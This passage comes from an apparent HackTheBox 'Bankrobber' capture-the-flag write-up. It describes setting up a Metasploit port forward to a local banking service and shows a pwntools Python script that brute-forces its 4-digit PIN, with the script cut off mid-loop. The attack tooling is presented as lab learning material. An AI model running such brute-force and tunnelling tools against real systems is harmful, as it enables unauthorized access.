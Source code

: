 I also see a `bankv2.exe` file in the system root directory but I can't read it.

![](/assets/images/htb-writeup-bankrobber/root2.png)

I generated an metasploit reverse shell payload, uploaded it then created a port forward for this port:

```
meterpreter > portfwd add -l 910 -p 910 -r 127.0.0.1
[*] Local TCP relay created: :910 <-> 127.0.0.1:910
```

I can reach the application now on port 910 but I don't have a valid PIN:

![](/assets/images/htb-writeup-bankrobber/root3.png)

I tried checking for buffer overflows but couldn't crash the program so I likely have to brute force the PIN first. I made a quick script to brute force the PIN:

```python
#!/usr/bin/python

from pwn import *
import time
import sys

i = int(sys.argv[1])
j = int(sys.argv[2])
while True:
    m = ""
    if i < j:
        pin = str(i).zfill(4)
        p = remote("127.0.0.1", 910)
        try:
            p.recvuntil("[$]", timeout=30)
            p.sendline("%s" % pin)
        except EOFError:
            print("Retry on %d" % i)
            continue
        try:
            m = p.recvline(timeout=10)
            print m
        except EOFError:
            print("Retry on %d" % i)
            continue
```